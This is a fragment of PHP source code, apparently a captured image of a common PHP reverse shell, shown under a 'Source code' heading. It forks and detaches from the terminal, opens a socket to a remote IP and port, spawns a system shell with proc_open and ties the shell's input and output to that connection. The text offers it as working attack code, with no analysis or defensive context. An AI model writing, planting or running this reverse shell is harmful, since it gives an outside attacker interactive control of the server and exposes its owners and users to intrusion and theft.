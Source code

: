 ```shell
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();
	
	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}
	
	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}

	$daemon = 1;
} else {
	printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
}

// Change to a safe directory
chdir("/");

// Remove any umask we inherited
umask(0);

//
// Do the reverse shell...
//

// Open reverse connection
$sock = fsockopen($ip, $port, $errno, $errstr, 30);
if (!$sock) {
	printit("$errstr ($errno)");
	exit(1);
}

// Spawn shell process
$descriptorspec = array(
   0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
   1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
   2 => array("pipe", "w")   // stderr is a pipe that the child will write to
);

$process = proc_open($shell, $descriptorspec, $pipes);

if (!is_resource($process)) {
	printit("ERROR: Can't spawn shell");
	exit(1);
}

// Set everything to non-blocking
// Reason: Occsionally reads will block, even though stream_select tells us they won't
stream_set_blocking($pipes[0], 0);
stream_set_blocking($pipes[1], 0);
stream_set_blocking($pipes[2], 0);
stream_set_blocking($sock, 0);

```